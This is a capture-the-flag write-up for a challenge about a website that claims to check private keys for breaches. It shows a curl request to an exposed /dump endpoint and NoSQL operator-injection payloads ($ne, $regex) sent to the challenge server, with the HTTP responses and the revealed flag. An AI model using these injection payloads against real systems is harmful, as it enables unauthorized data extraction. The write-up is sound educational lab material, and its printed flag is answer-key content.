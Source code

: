 # dot-private-key

![Proof](proof.png)   

**Author:** `RaduTek`  
**Solves:** 26

---

## Description

Our security researcher has found this dubious website claiming to check any private keys for potential breaches in a secure manner. They think otherwise.

Attached are some clean keys that our researcher tried to check with the website a few days ago. Curiously, they have been exposed since.

Your task is to see if this website is truly up to what it claims.

we get `keys.txt`

## Solve

### Unintended solve
I found a vulnerability in this challenge particular to /dump

```bash
$ curl http://ctf.ac.upt.ro:9239/dump
...
ctf{...}
```

This would just leak absolut everything even the flag.

### Intended solve is doing NoSQL in key query
```bash
$curl -s -X POST http://ctf.ac.upt.ro:9239/key \
  -H 'Content-Type: application/json' \
  -d '{"key":{"$ne":""},"type":"other"}' | jq .
{
  "breach": {
    "_id": "68c72076e2df5cb2097558fa",
    "type": "other",
    "key": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9eyAiaGVsbG8iIDozfQ==",
    "sources": [
      "https://impkb.xyz/?d=aHR0cHM6Ly9wYXN0ZWJpbi5jb20vY2luTTV5WFg="
    ],
    "addedAt": 1757059854
  }
}
```

Because we confirmed the NoSQL injection worked lets try to regex the flag using `{"key":{"$regex":"ctf{","$options":"i"},"type":{"$regex":".*"}}`
```bash
$ curl -i -s -X POST http://ctf.ac.upt.ro:9239/key   -H 'Content-Type: application/json'   -d '{"key":{"$regex":"ctf{","$options":"i"},"type":{"$regex":".*"}}'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 172
ETag: W/"ac-C5xsM7Ij5D/pSpBFx7msMS+dd+M"
Date: Wed, 17 Sep 2025 18:26:21 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"breach":{"_id":"68c72076e2df5cb2097558fc","key":"ctf{284dc217ce36b9133c561207af3dbf6b8656323d6375f3f5c8c955be0a2aab66}","type":"other","sources":[],"addedAt":1726344438}}
```
There is our flag!

### Flag: ctf{284dc217ce36b9133c561207af3dbf6b8656323d6375f3f5c8c955be0a2aab66}